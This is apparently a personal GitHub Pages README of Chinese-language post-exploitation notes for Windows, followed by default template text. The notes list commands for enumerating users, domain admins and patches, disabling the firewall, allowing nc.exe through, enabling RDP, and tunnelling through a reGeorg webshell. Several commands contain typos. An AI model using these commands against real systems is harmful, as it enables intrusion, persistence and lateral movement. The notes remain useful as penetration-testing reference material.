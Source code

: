 ## 後滲透筆記

systeminfo	系統資訊

systeminfo | findstr /B /C:"OS名稱" /C:"OS版本"	查看特定資訊

wmic os get caption	查看作業系統

whoami	當前使用者

whoami /priv	當前使用者權限

ipconfig /displaydns	DNS暫存

route print	路由表

arp -a	

hostname	

net user	
net user UserName	關於使用者資訊
net localgroup administrators	本機管理者帳號
net user /domain	網域使用者
wmic useraccount get /all 	網域使用者詳細資訊
net group "domain admins" /domain	網域管理者帳號

net use \SMBPATH Pa$$w0rd /u:UserName	連接SMB
net localgroup	列出所有Group
net localgroup GROUP	列出指定Group資訊
net view \127.0.0.1	會話打開到當前電腦
net session	開放給其他電腦
DRIVERQUERY	列出安裝的驅動
tasklist /svc	列出task and service
Tasklist /svc|find "TermService"	查看PID
netstat -ano|find "3389"
net start	列出啟動的服務
dir /s foo	目錄搜尋指定的關鍵字
dir /s foo == bar	同上
sc query	列出所有服務
sc qc "Service"	查服務
sc qc ServiceName	找到指定服務的路徑
shutdown /r /t 0	立即重啟
type file.txt	列出檔案內容
icacls “C:\Example”	列出權限
systeminfo	列出已安装的補丁
wmic qfe get Caption,Description,HotFixID,InstalledOn	列出已安装的補丁
wmic qfe get Description,HotFixID,InstalledOn
wmic qfe get Description,HotFixID,InstalledOn | findstr /C:"KB4346084" /C:"KB4509094"  列出指定補丁
wmic product get name,version	查看目前安裝程序
共享目錄
net share
wmic share get name,path,status

### 防火牆設定
netsh firewall show config	顯示防火牆配置
netsh firewall set opmode disable	關閉防火牆(2003及以前版本)
netsh advfirewall set allprofiles state off	關閉防火牆(2003之後版本)
netsh firewall add allowedprogram c:\nc.exe "allow nc" enable	允許程式通過 (2003及以前版本)
netsh advfirewall fireall add rule name="pass nc" dir=in action=allow program="c:\nc.exe"	允許程式通過 (2003之後版本)
netsh advfirewall firewall add rule name"Allow nc" dir=out action=alow program="C:\nc.exe"
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3398 action=allow	允許3389通過
netsh advfirewall set currentprofile logging filename "C:\windows\temp\fw.log"	定義防火牆log存放位置

### 遠端服務
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber	查看遠端連結port(0xd3d)
開啟3389port#WinSer2003
wmic path win32_terminalservicesetting where (_CLASS !="") call setallowtsconnections 1	
開啟3389port#WinSer2008、2012
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (_CLASS !="") call setallowtsconnections 1
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1
reg add "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMINAL SERVER" /v fSingleSessionPerUser /t REG_DWORD /d 0 /fSingleSessionPerUser

### reGeorg
[regeorg](https://github.com/sensepost/reGeorg)
python re.py -p 7788 -u http://xxxxxxxxxxx/222.jsp
proxychains rdesktop 127.0.0.1	//後續連接3389

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/cr810831cs07g/cr810831cs07g.GitHub.io/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://docs.github.com/categories/github-pages-basics/) or [contact support](https://support.github.com/contact) and we’ll help you sort it out.
